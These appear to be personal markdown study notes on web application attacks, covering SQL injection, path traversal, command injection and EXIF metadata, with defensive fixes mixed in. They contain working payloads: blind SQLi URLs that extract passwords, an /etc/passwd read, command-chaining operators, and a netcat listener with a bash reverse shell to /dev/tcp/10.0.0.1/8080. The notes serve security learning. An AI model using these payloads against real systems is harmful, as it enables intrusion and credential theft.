 # General Tips

- Understand how the application is working
- Think like a software engineer
- Think of potential exploits

# SQLi

Vuln: control and data sharing the same band 

Magic Payload: '";<lol/>../--#`ls`

or 1=1 to bypass condition --> use 1=1 and 1=0 to test whether vulnerable

Union join: combine left and right queries with same number and types of columns (can reuse columns - e.g. SELECT username, password, username, password)

Confirm number of columns by injecting union select 1, 1, 1;-- etc.

Use single quote in input for '1' = '1' - acts like a delimiter

Find:

- How user input is being used
- Type of DBMS
  - sqlite3 (https://www.techonthenet.com/sqlite/sys_tables/index.php)
    - `select tbl_name, sql from sqlite_master`
    - `select name, sql from sqlite_master where type='table'`
    - Comment: `-- `
- Database schema
- Table (can guess)
- Column (can guess)

Blind SQLi

- Can't directly exfiltrate data by selecting it into a column
- Can make the database do something depending on if a condition is true
  - Boolean-based blind
    - https://www.example.com/items.php?id=1' and (select 1 from users where (select password from users where username like '%admin%' limit 0,1) like '<GUESS>%') -- 
  - Time-based blind
    - Sleep if first letter of the password is an 'a' etc.
    - https://www.example.com/items.php?id=1' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM users WHERE user_id = 1;

Defence:

- Prepared statements
- Designing a login page
  - Client-side / server-side validation
  - Rate limit
  - Rename sqlite_master (security by obscurity)
  - Debug mode
  - Parameterised queries
  - Use functions - sanitise



SQLMap

# Files

- https://www.example.com/getimage?image=images/default.png

- Think like the developer - open image_path - can read from any directory - local file inclusion

  - Use  /etc/passwd
  - Relative paths

- Prevent path traversal

- ```python
  # Don't do
  open(user_path, 'r')
  # Do
  UPLOAD_DIR = '/app/uploads/'
  if os.path.dirname(os.realpath(os.path.join(UPLOAD_DIR, user_path))) != UPLOAD_DIR:
    # Directory traversal detected!
    exit()
  ```

- 

# Arbitrary Code Execution

- Vuln: command + arguments

- Can chain with `&&` (only run if previous succeeds) or `||` or `;`

- May be sanitised - client-side validation can be bypassed with Burp Suite

- System - may not have enough permissions (in sandbox environment)

- ```python
  # Don't do
  os.system('ping ' + host)
  # Do
  subprocess.call(['ping', host])
  ```

- Reverse shell with netcat (nc) - TCP

  - `nc -lv 4444` listens for incoming connections on port 4444
  - Listen on attacker system, connect to it from compromised server
  - "Bash Reverse Shell" -> `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

- URL-encode with Burp Suite (convert selection -> URL-encode key characters)

# EXIF

- Stripping metadata before uploading to system, look out for
  - Personal/device details
  - Malicious script
  - Correct file extension
- `exiftool`
- 





















